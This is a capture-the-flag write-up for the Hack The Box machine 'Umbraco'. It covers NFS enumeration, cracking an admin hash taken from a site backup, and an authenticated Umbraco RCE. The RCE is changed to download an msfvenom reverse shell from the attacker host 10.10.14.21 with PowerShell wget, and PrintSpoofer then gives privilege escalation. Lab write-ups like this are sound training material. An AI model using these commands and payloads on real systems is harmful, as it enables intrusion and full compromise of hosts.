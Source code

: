 # HTB Umbraco

**Machine Information**

	IP : 10.10.10.180
	OS : Windows

### Reconnaissance

**Rustscan**

Start by running a port scan using `rustscan`.

```
rustscan -a 10.10.10.180 -- -sC -sV
```

```
PORT      STATE SERVICE       REASON  VERSION
21/tcp    open  ftp           syn-ack Microsoft ftpd
| ftp-syst:
|_  SYST: Windows_NT
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
80/tcp    open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Home - Acme Widgets
111/tcp   open  rpcbind?      syn-ack
| rpcinfo:
|   program version    port/proto  service
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|_  100005  1,2,3       2049/udp6  mountd
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack
2049/tcp  open  mountd        syn-ack 1-3 (RPC #100005)
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49678/tcp open  msrpc         syn-ack Microsoft Windows RPC
49679/tcp open  msrpc         syn-ack Microsoft Windows RPC
49680/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 59m58s
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 45222/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 37026/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 15893/udp): CLEAN (Timeout)
|   Check 4 (port 17000/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time:
|   date: 2024-08-01T08:57:27
|_  start_date: N/A
```

### Getting a Foothold

**FTP**

There is an FTP server running on port 21 with anonymous access enabled. Unfortunately there were no files stored there.

**SMB**

Anonymous access is not enabled for SMB so we can't do anything for now.

**NFS**

Check NFS for mountable shares.

```
showmount -e 10.10.10.180
```

There is one available that everyone can access.

```
Export list for 10.10.10.180:
/site_backups (everyone)
```

Create a new folder in the `/tmp` directory and mount the NFS share.

```
mkdir /tmp/site_backups                                                         sudo mount -t nfs 10.10.10.180:/site_backups /tmp/site_backups -o nolock
```

Inside this share we can see a client called Umbraco. A quick search shows that it is an open-source .NET CMS.

**Dirsearch**

There is a web server running on port 80 so we can use `dirsearch` to find additional directories.

```
dirsearch -u http://10.10.10.180
```

This reveals a folder called `umbraco` that leads us to a login page.

```
[18:16:34] 302 -  126B  - /install  ->  /umbraco/
```

**SDF file**

Common default passwords don't work but we have a backup of the website which may contain credentials. Using `grep` to search for "Administrator" reveals an `.sdf` file as the first result.

```
grep -r "Administrator" /tmp/site_backups/
```

```
grep: /tmp/site_backups/App_Data/Umbraco.sdf: binary file matches
```

A quick search shows that an `.sdf` file is a "Microsoft SQL Server Compact Edition database file". If we run `strings` and `grep` on it we can find the instance of "Administrator" and what appears to be a password.

```
strings /tmp/site_backups/App_Data/Umbraco.sdf | grep "Administrator"
```

Copy this hash to a file and we can use `john` to crack it.

```
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

We can now sign into the web server using these credentials.

**NOTE:** the username requires the email address `admin@htb.local`

**Find exploit**

With an authenticated session we can now the system is running version 7.12.4 of Umbraco CMS. If we check `searchsploit` for known exploits there are two possible candidate.

```
searchsploit umbraco
```

```
Umbraco CMS 7.12.4 - (Authenticated) Remote Code Execution                              | aspx/webapps/46153.py
Umbraco CMS 7.12.4 - Remote Code Execution (Authenticated)                              | aspx/webapps/49488.py
```

I used the first exploit but the second one may work as well. Modify the python script to include out username, password, and target host. The payload will need to modified as well. I configured mine to use `powershell.exe` to retrieve a reverse shell from my python server. 

**Upload exploit**

Make the following changes:
- Change the `proc.StartInfo.FileName` to `powershell.exe`.
- Change the `string cmd` to the following:

```
mkdir C:/temp
```

Run the python script to create a new folder for us to upload our reverse shell.

```
python3 46153.py
```

Change the `string cmd` to the following to upload our payload.

```
wget http://10.10.14.21/shelly.exe -Outfile C:/temp/shelly.exe
```

The exploit should be working we need to create the payload. Use `msfvenom` to generate a reverse shell.

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.21 LPORT=9001 -f exe > shelly.exe
```

Start a python server on port 80 and run the exploit.

```
python3 -m http.server 80
```

```
python3 46153.py
```

If successful we should get a hit on our python server.

**Run exploit**

Now update the `string cmd` variable to the following:

```
C:/temp/shelly.exe
```

Start a `netcat` listener and run the exploit to get a shell.

```
C:\windows\system32\inetsrv>whoami
whoami
iis apppool\defaultapppool
```

Success! Grab the user flag.

```
type C:\Users\Public\Desktop\user.txt
```

### Privilege Escalation

Check the privileges for our current user.

```
whoami /priv
```

It shows that we have the `SeImpersonatePrivilege` enabled so we can potentially escalate our privileges. Upload `PrintSpoofer` to the target machine and run it to get an elevated shell.

```
.\PrintSpoofer64.exe -i -c cmd
```

Grab the flag.

```
type C:\Users\Administrator\Desktop\root.txt
```
